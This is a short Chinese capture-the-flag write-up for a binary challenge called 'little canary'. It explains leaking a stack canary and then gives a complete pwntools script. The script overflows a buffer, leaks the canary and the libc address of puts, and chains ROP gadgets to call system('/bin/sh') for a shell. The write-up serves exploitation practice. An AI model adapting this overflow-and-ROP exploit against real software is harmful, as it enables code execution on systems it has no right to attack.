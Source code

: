 # little canary

## 文件分析

下载`pwn`, NX on, PIE off, Canary on, RELRO partial  
ghidra分析为64位程序

## 逆向

先溢出字符数组读取Canary的值

**注意：Canary的第一字节是\0，需要先覆盖才能打印出后面内容，之后还要还原**

获取canary的值后就可以考虑rop  
由于不存在后门且开了NX，所以后面根据ret2libc做即可

## EXPLOIT

```python
import LibcSearcher
from pwn import *

sh = remote('localhost', 43655)

# payload 1
sh.sendline(b'0'*68 + b'FLAG') # override the canary first byte '\0' with '\n'

sh.recvuntil(b'FLAG\n') # skip
canary = u64(b'\0' + sh.recvline()[:7]) # restore the overrided '\0'

elf = ELF('canary')
putsPlt = elf.plt['puts']
putsGot = elf.got['puts']
popRdiAddr = 0x00401343
vulnAddr = elf.symbols['vuln']

# payload 2
sh.sendline(b'0'*72 + p64(canary) + b'0'*8 + p64(popRdiAddr) + p64(putsGot) + p64(putsPlt) + p64(vulnAddr))

sh.recvline() # skip
putsGotAddr = u64(sh.recvline()[-7:-1] + b'\0\0')
libc = LibcSearcher.LibcSearcher("puts", putsGotAddr & 0xfff)
libcBase = putsGotAddr - libc.dump("puts")
shstrAddr = libcBase + libc.dump("str_bin_sh")
systemAddr = libcBase + libc.dump("system")
retAddr = 0x004012b9

# payload 3
sh.sendline(b'skip this input')

# payload 4
sh.sendline(b'0'*72 + p64(canary) + b'0'*8 + p64(popRdiAddr) + p64(shstrAddr) + p64(retAddr) + p64(systemAddr))

sh.interactive()
```

Done.
